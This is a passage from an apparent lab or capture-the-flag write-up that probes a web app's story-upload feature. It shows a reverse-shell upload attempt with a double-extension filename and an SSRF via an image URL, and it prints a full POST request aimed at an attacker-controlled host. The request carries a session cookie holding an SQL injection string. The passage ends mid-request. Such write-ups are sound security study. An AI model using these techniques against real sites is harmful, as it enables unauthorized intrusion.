 
The web page does not properly check if an uploaded file is an image, as it was possible to upload a reverse shell by the name of `php-reverse-shell.jpg.php`. This, however, did not lead to RCE as the web page nevertheless treated the file as an image. Furthermore, uploading a malicious image with PHP code did not work. 

An addition to the image upload feature is the ability to upload files given a url. This could be utilized to cause the server to perform GET requests to an arbitrary website of the user’s choice:


```

Request


```
POST /dashboard/stories/add HTTP/1.1
Host: 10.10.11.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------12417370376638841362770592069
Content-Length: 850
Origin: http://10.10.11.101
DNT: 1
Connection: close
Referer: http://10.10.11.101/dashboard/stories/add
Cookie: session=eyJ1c2VyIjoiJ09SIDE9MS0tIC0ifQ.YSLw7w.2OHVWSzrpZAobEiyfxo94ul3lfg
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="author"

0xd4y
-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="title"

Writeup
-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="tagline"

Writeup
-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="image_url"

http://10.10.15.80/image.jpg
-----------------------------12417370376638841362770592069
Content-Disposition: form-data; name="content"
